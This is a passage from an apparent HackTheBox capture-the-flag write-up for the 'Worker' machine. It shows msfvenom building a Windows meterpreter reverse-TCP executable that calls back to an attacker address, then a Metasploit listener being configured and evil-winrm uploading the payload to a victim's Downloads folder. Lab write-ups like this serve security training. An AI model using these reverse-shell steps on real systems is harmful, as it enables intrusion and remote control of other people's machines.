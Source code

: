 Let's create a new reverse shell (an exe this time).

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f raw > cyfun.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 510 (iteration=0)
generic/none chosen with final size 510
Payload size: 510 bytes
```

Start a listener aagain:

```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.174     yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

[evil-winrm][evil-winrm] allows us to upload a file:

```
*Evil-WinRM* PS C:\Users\robisl\Downloads> upload /home/cyfun/CTF/HackTheBox/machines/Worker/cyfun.exe
Info: Uploading /home/cyfun/CTF/HackTheBox/machines/Worker/cyfun.exe to C:\Users\robisl\Downloads\cyfun.exe

Data: 680 bytes of 680 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\robisl\Downloads> pwd

Path
----
C:\Users\robisl\Downloads
```
